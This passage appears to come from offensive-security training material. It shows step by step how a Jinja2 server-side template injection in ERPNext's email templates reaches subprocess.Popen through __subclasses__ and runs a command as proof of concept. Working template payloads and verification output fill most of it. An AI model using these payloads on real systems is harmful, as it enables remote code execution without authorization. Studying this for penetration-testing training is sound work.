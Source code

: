 Figure 66: Find And Replace in Visual Studio Code
Figure 66: Find And Replace in Visual Studio Code
This provides a pre-numbered list, making it easier to find the index number to use when we need to reference it in the payload.

One of the classes that seems interesting is subprocess.Popen. The subprocess class allows us to "spawn new processes, connect to their input/output/error pipes, and obtain their return codes".1 This class is very useful when attempting to gain code execution.

We can find the subprocess class on line 421 (your result might vary). Let's attempt to access index 420 (Python indexes start at 0) and inspect the result by appending "[420]" to the payload.

{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420] }}
Listing 76 - Accessing the 420th index of __subclasses__

Rendering this function returns the subprocess.Popen class.

For me it was 656 instead of 420

#### Gaining Remote Command Execution

With access to a class that allows for code execution, we can finally put all the pieces together and obtain RCE on ERPNext.

To successfully execute Popen, we need to pass in a list containing a command that we want to execute along with the arguments. As a proof of concept, let's touch a file in /tmp/. The binary we want to execute and the file we want to touch will be two strings in a list. The example we are using can be found in Listing 77.

["/usr/bin/touch","/tmp/das-ist-walter"]
Listing 77 - Popen argument to be passed in

The content in Listing 77 needs to be placed within the Popen arguments in the email template. The email template to execute the touch command is as follows:

{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420](["/usr/bin/touch","/tmp/das-ist-walter"]) }}
Listing 78 - Template for touching file

Rendering this template in Burp won't return the output, but instead a Popen object based off the execution. Using an SSH session, we can verify that the file was successfully created.

frappe@ubuntu:~$ ls -lh /tmp/das-ist-walter 
-rw-rw-r-- 1 frappe frappe 0 Jan 11 10:31 das-ist-walter
Listing 79 - Verifying existence of touched file
